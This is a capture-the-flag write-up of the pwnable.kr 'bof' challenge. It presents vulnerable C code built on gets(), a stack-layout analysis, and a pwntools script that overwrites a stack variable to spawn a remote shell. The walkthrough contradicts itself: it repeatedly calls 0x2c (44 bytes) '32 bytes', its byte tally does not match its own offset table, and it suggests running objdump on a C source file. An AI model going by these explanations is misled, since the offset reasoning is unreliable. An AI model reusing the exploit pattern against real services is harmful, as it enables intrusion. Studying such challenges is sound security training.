

---

# **Challenge 3: Buffer Overflow**

### **Challenge Code**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key) {
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);  // Vulnerable function
    if (key == 0xcafebabe) {
        system("/bin/sh");
    } else {
        printf("Nah..\n");
    }
}

int main(int argc, char* argv[]) {
    func(0xdeadbeef);
    return 0;
}
```

---

### **Challenge Objective**
In this challenge, we will:
- Understand what a buffer overflow is.
- Exploit the `gets()` vulnerability to overwrite the `key` variable with the value `0xcafebabe`.
- When the condition `key == 0xcafebabe` is true, the program executes `system("/bin/sh")`, providing a shell to capture the flag.

---

### **Understanding Buffer Overflow**
A **buffer overflow** occurs when we input more data than a variable can hold, causing it to overwrite adjacent memory zones. Every variable in a program is assigned a specific memory zone, but if we can write beyond the boundaries of that memory, we can overwrite other variables, stack pointers, or return addresses.

In this case:
1. The `gets()` function does not perform bounds checking and allows input longer than `overflowme`’s allocated size of 32 bytes.
2. This overflow can overwrite the `key` variable, which is stored nearby in memory.

---

### **Plan to Exploit**
Our goal is to:
1. **Overflow the buffer** (`overflowme`) and write enough data to overwrite the memory where the `key` variable is stored.
2. **Set `key = 0xcafebabe`** by carefully crafting our payload.

---

### **Analyzing the Code**

#### **Vulnerable Function: `func()`**
1. **Overflow Variable:**
   - `overflowme` is a 32-byte buffer located at `ebp - 0x2c` (32 bytes below the base pointer).
   
2. **Key Variable:**
   - The `key` variable is passed as a parameter to `func()` and stored at `ebp + 0x8` (8 bytes above the base pointer).

3. **Critical Instructions:**
   - **`gets(overflowme)`**:
     - Reads user input directly into `overflowme` without size checks.
     - Input longer than 32 bytes will overwrite adjacent memory, including the `key` variable.
   - **Comparison**:
     - The program checks if the `key` variable is equal to `0xcafebabe`:
       ```assembly
       cmpl 0xcafebabe,0x8(%ebp)
       ```
     - If the condition is true, the program calls `system("/bin/sh")`.

---

### **Exploit Analysis**

To overwrite the `key` variable:
1. Fill the 32 bytes of `overflowme` to overflow the buffer.
2. Overwrite the 4 bytes of saved `ebp`.
3. Overwrite the 4 bytes of the return address (optional; not used in this challenge).
4. Write the value `0xcafebabe` to the memory location of `key` at `ebp + 0x8`.

#### **Memory Layout**
| Memory Address | Content               | Offset |
| -------------- | --------------------- | ------ |
| `ebp - 0x2c`   | Start of `overflowme` | +0     |
| `ebp`          | Saved base pointer    | +0x2c  |
| `ebp + 0x4`    | Return address        | +0x30  |
| `ebp + 0x8`    | `key` variable        | +0x34  |

To overwrite the `key` variable, we need:
- **32 bytes** to fill `overflowme`.
- **8 bytes** (saved `ebp` + return address).
- **4 bytes** to write `0xcafebabe` to `key`.
- 
---

### **Crafting the Payload**
Using the above analysis, the payload structure is:
1. **Padding for `overflowme`:**
   - 32 bytes (`'a' * 0x2c`).
2. **Padding for `ebp` and return address:**
   - 8 bytes (`'b' * 0x08`).
3. **Value for `key`:**
   - Write `0xcafebabe` in little-endian format (`\xbe\xba\xfe\xca`).

---

### **Python Exploit Script**

Here’s the Python script to exploit the challenge:

```python
from pwn import *

# Connect to the server
connection = remote("pwnable.kr", 9000)

# Construct the payload
overflow_payload = b'a' * 0x2c       # Fill 32 bytes of overflowme
overflow_payload += b'b' * 0x08      # Padding for saved ebp and return address
overflow_payload += p32(0xcafebabe)  # Overwrite key with 0xcafebabe (little-endian)

# Print the payload for verification
print("Payload:", overflow_payload)

# Send the payload to the server
connection.sendline(overflow_payload)

# Interact with the shell
connection.interactive()
```

---

### **Steps to Execute the Exploit**

1. **Analyze the Disassembly:**
   - Use `objdump -D bof.c` to confirm the memory layout and validate the `overflowme` and `key` locations.

2. **Run the Script:**
   ```bash
   python exploit.py
   ```

3. **Observe the Shell:**
   - If successful, the script overwrites `key` with `0xcafebabe`, triggering the shell:
     ```
     $ whoami
     $ ls
     ```
    
---

### **Key Learnings**

1. **Buffer Overflow Basics:**
   - Overwriting memory beyond the bounds of a buffer allows manipulation of other variables or control flow.

2. **Memory Layout Analysis:**
   - Understanding how variables are stored relative to the stack pointer and base pointer is crucial.

3. **Using Little-Endian Format:**
   - Most modern architectures store multi-byte values in little-endian order, so hex values must be reversed.

4. **Automating Exploits:**
   - Tools like `pwntools` simplify the creation and execution of payloads for CTF challenges.

---